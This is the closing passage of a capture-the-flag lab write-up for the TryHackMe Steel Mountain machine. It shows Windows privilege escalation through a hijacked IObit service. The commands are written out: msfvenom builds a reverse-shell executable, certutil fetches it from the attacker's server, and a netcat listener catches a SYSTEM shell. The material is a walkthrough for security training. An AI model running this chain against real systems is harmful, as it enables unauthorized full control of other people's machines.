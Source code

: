 So, lets create a malicious file called Advanced.exe and upload the file to the directory.

We can then stop and start the service and catch a shell back as SYSTEM.

First we'll create the malicious file:

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.6.72.91 LPORT=445 -f exe > Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The set up a Python http server and fetch it with certutil:

```
C:\Program Files (x86)\IObit>certutil -urlcache -split -f "http://10.6.72.91/Advanced.exe
certutil -urlcache -split -f "http://10.6.72.91/Advanced.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

Next we'll set up a listener and restart the service:

```
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.72.43] 49315
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We can now grab the final flag:

![thm_steel_mountain_root1.png](../assets/steel_mountain_assets/thm_steel_mountain_root1.png)

Thanks for following along!

-Ryan

----------------------------------------------
